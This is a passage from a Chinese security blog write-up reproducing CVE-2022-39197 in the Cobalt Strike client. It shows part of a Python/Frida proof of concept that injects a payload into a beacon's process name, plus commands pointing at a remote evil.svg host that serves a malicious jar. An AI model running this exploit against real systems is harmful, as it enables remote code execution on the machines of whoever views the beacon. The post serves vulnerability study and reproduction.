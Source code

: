 ```python
        onLeave: function(retval) {
            if(this.szExeFile.readAnsiString() == "beacon.exe") {
                send("[!] Found beacon, injecting payload");
                this.szExeFile.writeAnsiString(payload);
            }
        }
    })
    '''.replace("USER_PAYLOAD", url)

    script = session.create_script(frida_script)
    script.load()
    frida.resume(pid)
    # make sure payload is triggered on client
    print("[+] Waiting for 100 seconds")
    time.sleep(100)
    frida.kill(pid)
    print('[+] Done! Killed beacon process.')
    exit(0)


if __name__ == '__main__':
    if len(sys.argv) == 3:
        processInject(sys.argv[1], sys.argv[2])
    else:
        print("[-] Incorrect Usage!\n\nExample: python3 {} beacon.exe http://10.10.10.2:8080/evil.svg".format(sys.argv[0]))
```





将SVG文件和jar文件放到服务器上，修改SVG中的`xlink:href`为jar链接

![image-20221101114517102](https://raw.githubusercontent.com/todis21/image/main/202211011229206.png)

然后用poc模拟上线,beacon.exe是木马文件

```
python3 cve-2022-39197.py beacon.exe http://xxx.xxx.xxx.xxx/evil.svg
```



![image-20221101120607766](https://raw.githubusercontent.com/todis21/image/main/202211011229136.png)

![image-20221101120517468](https://raw.githubusercontent.com/todis21/image/main/202211011229313.png)



点开进程列表，随便点点，成功弹出计算机

![image-20221101121636153](https://raw.githubusercontent.com/todis21/image/main/202211011229550.png)



## 总结

这个漏洞号称是脚本小子杀手，蓝队快乐洞。在复现这个漏洞的过程中，很折磨，也很享受，让我学习到关于Swing和SVG的知识，也是我接触java安全的第一步，后面会继续学习java安全

